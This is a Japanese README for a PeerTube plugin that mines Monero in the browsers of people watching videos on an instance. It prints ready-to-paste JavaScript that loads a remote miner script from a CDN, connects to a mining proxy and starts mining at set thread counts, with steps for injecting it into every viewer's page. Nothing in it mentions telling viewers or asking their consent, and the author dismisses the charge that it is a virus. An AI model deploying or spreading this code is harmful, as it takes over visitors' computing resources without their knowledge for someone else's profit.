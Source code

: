 <div align="center">

<p><img alt="現代アート先輩 PeerTube Monero XMR Mining Plugin" src="./modenart-sempai.png" width="320" height="240"></p>

<p>Googleの検索エンジンに引っ掛からないから色々やっているんですが、中々ヒットしないから上の画像をalt付きで貼り付けたりと手を尽くしています。</p>

<p>このコードが新規にPeerTubeのプラグインを開発する方々の助けや参考になれば良いなと思っています。</p>

<p>・Github Pages<br>
<a href="https://pyu224.github.io/peertube-plugin-monero-miner/">https://pyu224.github.io/peertube-plugin-monero-miner/</a></p>

<p>・Repository<br>
<a href="https://github.com/PYU224/peertube-plugin-monero-miner">https://github.com/PYU224/peertube-plugin-monero-miner</a></p>

</div>

# PeerTube plugin Quickstart

See https://docs.joinpeertube.org/#/contribute-plugins?id=write-a-plugintheme

下記のマイニングスクリプトを組み込めないかと色々やってみました。

開発者のNajm Ajmal様、ありがとうございます。

https://github.com/NajmAjmal/monero-webminer

Issueとかでご意見や改善案を出してくださると嬉しいです。

野獣動画2ndというPeerTubeのインスタンスで試験運用中です。

# このプラグインについて

PeerTubeでMonero（XMR）のマイニングをPeerTubeを見ている方々のマシンのリソースを利用して行います。

マイニングスクリプトというプログラムの性質上、よくウィルス扱いされますがウィルスではありません。

一応動くと思いますがまだまだ開発途上なので不具合や改善するべき点は多いですからご了承ください。

実は当初はプラグインを作ろうとは思わず、Najm Ajmal様が手本として載せた下記のコードをPeertubeの設定にそのままコピペしていました。

しかしそれをするとマイニングに必要な「wss://」から始まるWebSocketに接続できなかったため、このプラグインを開発しました。

```javascript
// Start Of Mining Code (Javascript)
var script = document.createElement("script");
script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
document.head.appendChild(script);

server = "wss://ny1.xmrminingproxy.com";
var pool = "moneroocean.stream";
var walletAddress = "4からスタートするMoneroのアドレス";
var workerId = "GH-XMR"
var threads = 2;
var password = "";
startMining(pool, walletAddress, workerId, threads, password);
throttleMiner = 20;
// End Of Mining Code
```

ChatGPTの手も借りながらプラグイン開発をしていましたが、実際の所としてはHTMLのサンプルをJavaScriptでそのまま貼り付けられるようにして変換しました。

そうしてできた下記のコードをPeertubeの設定欄にあるJavaScriptの項目に必要な設定部分を変更して貼り付けるだけで動作する事が分かりました。

```javascript
// 外部スクリプトを挿入
const externalScript = document.createElement("script");
externalScript.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
externalScript.async = false;
document.head.appendChild(externalScript);

// 外部スクリプトのロード完了後に内部スクリプトを挿入
externalScript.onload = function() {
    console.log("Mining script loaded successfully.");

    const inlineScript = document.createElement("script");
    inlineScript.textContent = `
        server = "wss://ny1.xmrminingproxy.com";
        var pool = "moneroocean.stream";
        var walletAddress = "4からスタートするMoneroのアドレス";
        var workerId = "GH-XMR-JavaScript";
        var threads = 2;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    `;
    document.body.appendChild(inlineScript);
    console.log("Mining started.");
};

externalScript.onerror = function() {
    console.error("Failed to load the mining script.");
};
```

数日間の悪戦苦闘は徒労だったんですが、他の方がプラグインを新規に開発するにあたりこのプラグインは残しておく事にします。

# 使い方

<div align="center">

<img alt="現代アート先輩 PeerTube Monero XMR Mining Plugin" src="./setting.png">

</div>

画像で大体伝わると思いますが、Moneroのウォレットのアドレスは4から始まるアドレスにして入力、プラグインの設定をアップデートして更新すれば自動でJavaScriptが挿入されてマイニングが始まるはずです。

# ご支援とかリンクとか色々

・NPM（Peertubeのプラグインを公開しているページ）

https://www.npmjs.com/package/peertube-plugin-monero-miner

・プロフィール

https://x.com/PYU224

https://linksta.cc/@pyu224

・ご支援とか（Misskeyサーバーの規約と寄付の方法が載っています）

https://github.com/PYU224/misskey-data